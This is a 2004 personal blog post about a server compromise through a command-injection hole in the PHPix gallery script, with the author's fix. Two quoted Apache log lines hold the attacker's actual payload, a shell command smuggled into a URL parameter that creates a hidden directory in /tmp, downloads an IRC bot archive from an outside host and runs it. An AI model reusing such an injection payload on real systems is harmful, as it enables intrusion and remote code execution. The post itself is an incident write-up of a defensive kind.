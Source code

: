 ```yaml
---
layout: post
status: publish
published: true
title: Sorta got owned.
author:
  display_name: squarism
  login: chris
  email: squarism@gmail.com
  url: ''
author_login: chris
author_email: squarism@gmail.com
wordpress_id: 51
wordpress_url: http://squarism.com/2004/11/04/sorta-got-owned/
date: !binary |-
  MjAwNC0xMS0wNCAyMzo1NDoxNCAtMDUwMA==
date_gmt: !binary |-
  MjAwNC0xMS0wNSAwNDo1NDoxNCAtMDUwMA==
categories:
- Unix
tags: []
comments: []
---
```

<p>/tmp is writable for the apache user.  Someone exploited some bad code and uploaded an IRC bot on Aug 09.  It's not running now and we did a test to see if ./mech could be run.  It didn't start.</p>
<p>We fixed the PHPix code to check for system escapable characters.  PHPix really should have done this from the start.  Goes to show you that security really goes out the window with freeware and lots of services running.</p>
<p><code>
[Mon Aug 09 05:39:42 2004] [error] [client 82.208.182.219] File does not exist: /var/www/jonhammond/docs/albums/generated/Misc/Other/dogs__scaled_`cd , referer: http://jonhammond.com/albums/?mode=view&amp;album=Misc%2FOther&amp;pic=dogs.jpg&amp;
dispsize=http://www.martynlomax.com/phpix/index.php?album=pissups%2FOn-Anon&amp;
dispsize=`cd%20/tmp;mkdir%20'%20..%20';cd%20'%20..%20';wget%20idl3.home.ro/botu.tgz;
tar%20xzvf%20botu.tgz;cd%20botu;./mech;./mech`&amp;start=0
</code></p>
<p><code>
[Mon Aug 09 12:12:42 2004] [error] [client 82.208.182.219] File does not exist: /var/www/jonhammond/docs/albums/generated/Misc/Virginia/matt__scaled_`cd , referer: http://jonhammond.com/albums/?mode=view&amp;album=Misc%2F<br>Virginia&amp;pic=matt.jpg&amp;
dispsize=`cd%20/tmp;mkdir%20'%20..%20';cd%20'%20..%20';wget%20idl3.home.ro/botu2.tgz;
tar%20xzvf%20botu2.tgz;cd%20botu;./mech`&amp;start=0
</code></p>
<p>Wasn't a big deal, the IRC bot didn't run because apache's shell is /bin/false.  (I shouldn't be telling you all this)  I'm still researching what emech is, how IRC bots work and if I can lock down apache anymore.</p>
